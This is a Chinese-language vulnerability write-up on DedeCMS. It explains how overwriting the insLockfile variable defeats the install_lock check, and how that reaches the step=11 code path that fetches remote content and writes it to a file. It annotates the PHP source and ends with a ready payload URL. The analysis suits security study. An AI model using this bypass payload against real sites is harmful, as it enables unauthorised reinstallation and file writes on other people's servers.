 访问安装页面，由于install_lock的存在，无法重新安装：

![](https://i.loli.net/2021/02/14/Fm1CsbuBn6LYoZW.png)

判断原理：定义了变量$insLockfile，利用file_exists()判断install_lock.txt是否存在
（取不存在的文件即可使判断条件失效）

![](https://i.loli.net/2021/02/14/4J1kzME8CPFAxqH.png)

由此进行变量覆盖即可绕过上述判断 `xxx/uploads/install/index.php?insLockfile=1`

![](https://i.loli.net/2021/02/14/qQlDNRW7B2nJY6k.png)

后续由于install_lock.txt的存在，使得安装无法连贯，但访问相应的页面还是可以的

如：`xxx/uploads/install/index.php?step=3&insLockfile=1`（由此我们可以在后面访问step=11）

![](https://i.loli.net/2021/02/14/gG5cka9ZzYQHDRd.png)



再看源码

```php
else if($step==11)
{
	require_once('../data/admin/config_update.php');
    #包含了../data/admin/config_update.php,在其中定义了updateHost和linkHost
    
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	#将config_update.php中的UPDATEHOST与dedecms/demodata.{$s_lang}.txt拼接为字符串
    
	$sql_content = file_get_contents($rmurl);
    #利用file_get_contents()读取$rmurl指代的文件内容
    
	$fp = fopen($install_demo_name,'w');#定义变量$fp,打开$install_demo_name指代的文件(w权限)
	if(fwrite($fp,$sql_content))#将$sql_content写入到$install_demo_name指代的文件
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```

包含的config_update，其中定义了变量updateHost和linkHost

![](https://i.loli.net/2021/02/14/Vj3Z1m9YvATG6fu.png)

利用：

1.判断语句为if(step==11），须传入step=11；
存在install_lock.txt，传入insLockfile=1（取不存在的文件使得判断条件失效）

```
payload：
xxx/uploads/install/index.php?step=11&insLockfile=1
```
